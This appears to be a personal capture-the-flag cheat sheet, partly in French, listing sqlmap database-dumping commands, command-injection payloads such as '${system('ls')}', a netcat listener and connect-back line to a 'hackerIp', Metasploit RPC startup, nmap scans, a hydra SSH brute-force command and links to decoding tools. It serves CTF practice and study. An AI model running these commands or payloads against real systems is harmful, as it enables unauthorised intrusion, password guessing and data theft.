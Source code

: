 # ctf



sqlmap -u url --dbs --dump   


wireshark ====== ip.src==192.168.171.129   ------ ip.dst==== tcp.port===

wht hash ---- hash analyser


https://hashes.com/en/decrypt/hash



classic cyfer


https://dencode.com/en/


https://www.dcode.fr/monoalphabetic-substitution
********************


morse code from audio 


https://morsecode.world/international/decoder/audio-decoder-adaptive.html


code injection

"ls" && @.  change " by (`) altgr 7 
********
burp 
@.|ls||



https://cybertalents.com/challenges/web/big-number?fbclid=IwAR14gKbg32A4IwFcdsxVer1DNVJq7o4gOgiVOTPOw08H0dGGfarteYCMmsI



rapid7


${system('ls')}


run rpc/
msfrpcd -P mypassword -U myuser -t Basic -n -p 55553

then run armitage/
armitage

snoopy


locate filename



image:


file filename


strings 


binwolk filename






whatweb ip
joomscan
wpsscan


exploit Joomla! 3.7.0


cat 
vi :q!
vi :wq!

cp usr/bi/a b 


sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump


sqlmap -u url -D database --dump-all --batch


sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all -batch  -v 3



sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


sqlmap -r file.txt -p username


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/


Crowler:
sqlmap -u http://testphp.vulnweb.com/ -crawl=3


cp file newName ========= le nouveau local c'est ou tu est positionner 


https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan



BRUTFORCE 


hydra -l root -p rockyou.txt -u  -s 22  192.168.160.181 ssh 


https://github.com/jeanphorn/wordlist/blob/master/usernames.txt


cryptography


https://gchq.github.io/CyberChef/


http://www.jsfuck.com/#


https://morsecode.world/international/translator.html


ls -lh /usr/share/wordlists/



https://www.kali.org/tools/wordlists/
